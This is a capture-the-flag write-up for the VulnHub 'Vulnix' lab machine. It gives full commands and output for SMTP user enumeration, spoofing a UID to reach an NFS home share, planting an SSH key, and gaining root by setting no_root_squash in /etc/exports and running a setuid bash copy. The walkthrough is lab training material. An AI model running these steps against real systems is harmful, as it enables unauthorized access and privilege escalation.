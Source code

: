 ﻿### Vulnix Writeup
So today we will try the Vulnix machine by @rebootuser which you can find hosted at https://www.vulnhub.com/entry/hacklab-vulnix,48/

So we start off with the usual nmap scan and get a few random services and no web server on this one.
```
nmap -v -sV -Pn -n 192.168.147.158 
```

```
PORT     STATE SERVICE  VERSION                    
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)                    
25/tcp   open  smtp     Postfix smtpd                                                                 
79/tcp   open  finger   Linux fingerd                                                                 
110/tcp  open  pop3     Dovecot pop3d                                                                 
111/tcp  open  rpcbind  2-4 (RPC #100000)          
143/tcp  open  imap     Dovecot imapd                                                                 
512/tcp  open  exec     netkit-rsh rexecd          
513/tcp  open  login?                              
514/tcp  open  shell    Netkit rshd                
993/tcp  open  ssl/imap Dovecot imapd                                                                 
995/tcp  open  ssl/pop3 Dovecot pop3d                                                                 
2049/tcp open  nfs_acl  2-3 (RPC #100227)  
```
So we see some interesting things here, first off the nfs running on 2049 shows us a possible user named vulnix.
```
root@sushi:~# showmount -e 192.168.147.158
Export list for 192.168.147.158:
/home/vulnix *
```
So we check it on the SMTP and yes that is a valid user.
```
root@sushi:~# nc -nv 192.168.147.158 25
(UNKNOWN) [192.168.147.158] 25 (smtp) open

220 vulnix ESMTP Postfix (Ubuntu)
500 5.5.2 Error: bad syntax
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY crappy
550 5.1.1 <crappy>: Recipient address rejected: User unknown in local recipient table
^C
```
So what is in Vulnix's home folder? We try mounting it and if we force it to use nfs version 3 or lower we can see the UID and GID for the owner is 2008 which we will need in a second.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# ls -l
total 12
drwxr-xr-x 2 root root 4096 Dec 20 20:26 jail
drwxr-xr-x 2 root root 4096 Dec 20 20:27 opt
drwxr-x--- 2 2008 2008 4096 Sep  2  2012 vulnix
root@sushi:/mnt# cd vulnix
bash: cd: vulnix: Permission denied
```
So awesome we can't actually access the folder, but I'm assuming if we have a user named vulnix with the same UID then it won't be a problem.
```
root@sushi:/mnt# useradd -u 2008 vulnix
root@sushi:/mnt# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd vulnix
$ ls -lah
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep  2  2012 .
drwxr-xr-x 5 root   root   4.0K Mar 18 20:24 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```
Nothing really in there, lets create some ssh keys and add the public key to the vulnix users authorized_keys.
```
root@sushi:/# ssh-keygen                           
Generating public/private rsa key pair.            
Enter file in which to save the key (/root/.ssh/id_rsa):                                              
Enter passphrase (empty for no passphrase):        
Enter same passphrase again:                       
Your identification has been saved in /root/.ssh/id_rsa.                                              
Your public key has been saved in /root/.ssh/id_rsa.pub.                                              
The key fingerprint is:                            
SHA256:SsY11VtkZekosDWAc+sMetO6J5GLsnWAkQgdNxaTRAk root@sushi                                         
The key's randomart image is:                      
+---[RSA 2048]----+                                
|..E=O+  ..o. .o.+|                                
|. oo+o o + o...o |                                
| . o    = = .oo  |                                
|    o. o + ... . |                                
|   . .= S   .    |                                
|     +.* +       |                                
|     .+.=        |                                
|   ....+ .       |                                
|   .o  .+        |                                
+----[SHA256]-----+                                
root@sushi:~# cd /root/.ssh                              
root@sushi:~/.ssh# ls                              
id_rsa  id_rsa.pub  known_hosts                    
root@sushi:~/.ssh# su vulnix                       
$ cd /mnt/vulnix                                   
$ mkdir .ssh                                       
$ cd .ssh                                          
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtV4eYiSqrw0sfD2Plm+AFfS99c5BsN4Xc67xWiIcN9gqxk8V/x3AGEUwLNNuAPAu/+inDQkv5HdKJwL56cgKKzDpeNtVaMwd8z3Xx1mHercAeIjyyYdl5HHxDgId23QIfgGJByFTLM77tRuJCiCPG/2EaCaAaykaIiobKorI2ujc61Z3Guzja/DXzSzmnGzeG/zSopdkRuUHu1ywQqj2D8GoJob4SL67juspotBA2DBX37nPpOvvy0drqK0z6UlyUj+ChZh8c15zOftJJuD4pImXKKX5T/pxprockcpCyUAQNw2Q+Ug5KgMo6g9WvwNAKXMOgDWDT5DKuAqjgmm1/ root@sushi > authorized_keys                                             
$                                                  
```
And then we can ssh onto the box with the vulnix account nice.
```
root@sushi:~/.ssh# ssh vulnix@192.168.147.158      
The authenticity of host '192.168.147.158 (192.168.147.158)' can't be established.                    
ECDSA key fingerprint is SHA256:IGOuLMZRTuUvY58a8TN+ef/1zyRCAHk0qYP4wMViOAg.                          
Are you sure you want to continue connecting (yes/no)? yes                                            
Warning: Permanently added '192.168.147.158' (ECDSA) to the list of known hosts.                      
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)                                   

 * Documentation:  https://help.ubuntu.com/        

  System information as of Sun Mar 18 17:35:22 GMT 2018                                               

  System load:  0.0              Processes:           89                                              
  Usage of /:   90.2% of 773MB   Users logged in:     0                                               
  Memory usage: 7%               IP address for eth0: 192.168.147.158                                 
  Swap usage:   0%                                 

  => / is using 90.2% of 773MB                     

  Graph this data and manage this system at https://landscape.canonical.com/                          


The programs included with the Ubuntu system are free software;                                       
the exact distribution terms for each program are described in the                                    
individual files in /usr/share/doc/*/copyright.    

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                  
applicable law.                                    

vulnix@vulnix:~$ uname -a
Linux vulnix 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 athlon i386 GNU/Linux
```
So first off we check if this account can do anything with sudo, and we can run sudoedit on the exports file good deal.
```
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```
So looking at /etc/exports, we can disable the root_squashing for the vulnix home folder which will allow us to copy something like bash and give it setuid permissions. We could also add roots home folder to the /etc/exports with no_root_squash and echo in our ssh key to his authorized_keys and get root access that way.
```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,no_root_squash)
```
So the next step really tripped me up as I'm just not used to doing this for these vm's, but to get the config change to take effect we have to actually reboot the machine. Remember to unmount the home folder also or it will take forever. When it's back up, we mount the home directory again and copy over /bin/bash.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# cd vulnix
root@sushi:/mnt/vulnix# cp /bin/bash .
root@sushi:/mnt/vulnix# chmod 4777 bash
root@sushi:/mnt/vulnix# ls -lah                    
total 1.3M                                         
drwxr-x--- 4 vulnix vulnix 4.0K Mar 18 14:16 .     
drwxr-xr-x 5 root   root   4.0K Mar 18 21:09 ..    
-rwsrwxrwx 1 root   root   1.3M Mar 18 14:16 bash  
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout                       
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc                            
drwx------ 2 vulnix vulnix 4.0K Mar 18 13:35 .cache
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile                           
drwxr-xr-x 2 vulnix vulnix 4.0K Mar 18 13:34 .ssh  
```
Then back in our ssh session as the vulnix user, we just run bash in the home folder with the -p flag to preserve file permissions.
```
vulnix@vulnix:~$ id                                
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)                                                 
vulnix@vulnix:~$ ./bash -p                         
./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)
bash-4.4# id                                       
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)                            
bash-4.4# cd /root                                 
bash-4.4# ls                                       
trophy.txt                                         
bash-4.4# cat trophy.txt                           
cc614640424f5bd60ce5d5264899c3be                   
```
So that was pretty fun, having to reboot the machine was different and the rest of it was interesting learning a bit about and using nfs for the first time in awhile.  As always thanks to @VulnHub and the author @rebootuser for hard work.


